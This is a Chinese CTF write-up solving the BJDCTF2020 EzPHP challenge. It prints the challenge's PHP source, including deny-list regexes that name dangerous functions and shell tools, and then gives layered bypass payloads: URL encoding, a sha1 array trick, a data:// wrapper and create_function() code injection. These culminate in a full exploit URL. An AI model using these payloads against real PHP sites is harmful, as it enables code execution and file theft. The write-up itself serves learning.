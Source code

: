 ### 这篇文章主要记录一些有巨巨巨多考点的命令执行

### [BJDCTF2020]EzPHP

```php
<?php
highlight_file(__FILE__);
error_reporting(0); 

$file = "1nD3x.php";
$shana = $_GET['shana'];
$passwd = $_GET['passwd'];
$arg = '';
$code = '';

echo "<br /><font color=red><B>This is a very simple challenge and if you solve it I will give you a flag. Good Luck!</B><br></font>";

if($_SERVER) { 
    if (
        preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING'])
        )  
        die('You seem to want to do something bad?'); 
}

if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!');

if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 

if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");


if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}

if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
} ?>
```

#### 第一层 url编码

第一层直接过滤了**$_SERVER['QUERY_STRING']**，也就是我们GET传的变量导致，甚至我们要传的变量名都被过滤了...，但是这个用url编码就能绕过了

![image-20220912194719372](D:\Typora\note\CTF\web\知识点\含金量巨高的命令执行.assets\image-20220912194719372.png)

御剑里面可以编码字母

#### 第二层 简单的%0a

```php
if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!');
```

第一个**debu**就很好绕过了，加个**%0a**换行符就好了，因为后面的`!==`是绝对不等于

#### 第三层 POST覆盖$_REQUEST

嗯，对，就是这么神奇，**POST传的同名变量可以覆盖掉GET传的变量内容**

#### 第四层 伪协议绕过

直接用用data协议绕过
`data://text/plain,debu_debu_aqua`
本来想的`php://input`，但是前面传POST了，不能再传无变量名的值了

#### 第五层 数组绕过sha1

做了很多次的数组绕过**sha1**了

然后这里有个`extract($_GET["flag"]);`是最后一步rce用的
这样分割的话，传数组就好了，类似
`flag[arg]=1&flag[code]=2`
分割之后就是
`$arg=1   $code=2`

#### 第六层 离谱的函数闭合

这步简直太离谱了

```php
if(preg_match('/^[a-z0-9]*$/isD', $code) ||
    preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) {
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w=");
} else {
    include "flag.php";
    $code('', $arg);
}
```

**code和arg可控**

考察的是create_function()的代码注入，但此函数在**php7.2**之后就因注入漏洞而被遗弃了

```php
create_function('$imagin','echo $imagin');
 
// 上面的代码等同于下面的
 
function whatever($imagin){ echo $imagin; }
```

注入漏洞？类似sql注入？**确实！！**

```php
$imagin = "} phpinfo(); //";
function whatever($imagin){ echo $imagin; }
 
// 上面的代码等同于下面的
 
function whatever(){ echo } phpinfo(); //; }
```

很类似sql注入对不对！！
用**}**闭合掉前面的**{**，然后执行**phpinfo();**，然后**//**注释掉最后的**}**

所以回到本题，我只需要使

```php
$code=create_function
$arg=}var_dump(get_defined_vars());//

payload
fl%61g[c%6fde]=create_function&fl%61g[%61rg]=}var_dump(get_defined_vars());//
```

就可以看到`include "flag.php";`里面有没有藏**flag**
然后发现。。。

```php
["ffffffff11111114ggggg"]=> string(89) "Baka, do you think it's so easy to get my flag? I hid the real flag in rea1fl4g.php 23333" }
```

太坑了吧。。。

那就包含这个文件再看一次变量

```php
$arg=}require(base64_dec%6fde(cmVhMWZsNGcucGhw));var_dump(get_defined_vars());//
//过滤了inc和单引号，用base64绕过
payload
&fl%61g[%61rg]=}require(base64_dec%6fde(cmVhMWZsNGcucGhw));var_dump(get_defined_vars());//
```

然后得到

```php
["f4ke_flag"]=> string(28) "BJD{1am_a_fake_f41111g23333}" }
```

还是个假的flag...
看来必须要读到这个文件源码了

```php
require(php://filter/read=convert.base64-encode/resource=rea1fl4g.php);
```

也就是这样

为了绕过很多屏蔽词，选择取反

```php
<?php
$a="php://filter/read=convert.base64-encode/resource=rea1fl4g.php";
echo urlencode(~$a);
?>
取反操作适用于
1.要转成字符串
2.后面有括号，可以当函数
```

```php
fl%61g[%61rg]=}require(~(%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F));//

//为什么不行呢？
fl%61g[%61rg]=}require(base64_dec%6fde(cGhwOi8vZmlsdGVyL3JlYWQ9Y29udmVydC5iYXNlNjQtZW5jb2RlL3Jlc291cmNlPXJlYTFmbDRnLnBocA==));//
```

终于得到flag

![image-20220912202205188](D:\Typora\note\CTF\web\知识点\含金量巨高的命令执行.assets\image-20220912202205188.png)

最终payload

```php
http://2c6178de-b3ee-47f9-8039-e2593b800980.node4.buuoj.cn:81/1nD3x.php?%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0a&file=%64%61%74%61%3A%2F%2F%74%65%78%74%2F%70%6C%61%69%6E%2C%64%65%62%75%5F%64%65%62%75%5F%61%71%75%61&%73%68%61%6E%61[]=0&%70%61%73%73%77%64[]=1&fl%61g[c%6fde]=create_function&fl%61g[%61rg]=}require(~(%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F));//
POST
%64%65%62%75=1&file=1
```

#### 疑问

code不是匹配了所有字母吗，为什么还能用**create_function**

这里为什么不能用base64代替取反呢

```php
//为什么不行呢？
fl%61g[%61rg]=}require(base64_dec%6fde(cGhwOi8vZmlsdGVyL3JlYWQ9Y29udmVydC5iYXNlNjQtZW5jb2RlL3Jlc291cmNlPXJlYTFmbDRnLnBocA==));//
```

#### 参考博客

[解析create_function() && 复现wp](https://paper.seebug.org/94/)

[feng师傅](https://blog.csdn.net/rfrder/article/details/111824177)